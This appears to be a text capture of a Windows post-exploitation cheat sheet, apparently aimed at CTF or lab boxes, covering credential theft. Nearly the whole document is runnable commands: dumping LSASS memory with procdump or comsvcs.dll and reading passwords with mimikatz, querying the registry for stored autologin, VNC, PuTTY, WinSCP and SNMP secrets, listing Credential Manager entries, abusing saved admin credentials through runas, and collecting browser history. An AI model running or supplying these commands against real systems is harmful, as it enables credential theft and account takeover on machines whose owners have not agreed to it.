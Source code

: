Dumping Creds if you find lsass.dmp
#Download procdump.exe on the target machine 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
or
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <LSASS.EXE_PID> lsass.dmp full

mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full

Find Passwords in Registry

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server /v PasswordViewOnly"
vncpwd.exe PASSWORD_FROM_ABOVE

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#Winscp
reg query "HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP" 2\Sessions

To decrypt winscp keys,copy the username,hostname and encrypted password and use github-winscppassworddecrypt


# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s 

Credentials in Credential Manger 
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
 

#run as admin using previously saved creds
runas /user:Administrator /noprofile /savecred "cmd.exe /c type C:\users\administrator\desktop\root.txt > C:\users\noob\root.txt"

List the websites visited by the Target

You can make use of Get-BrowserData.ps1 to list the websites
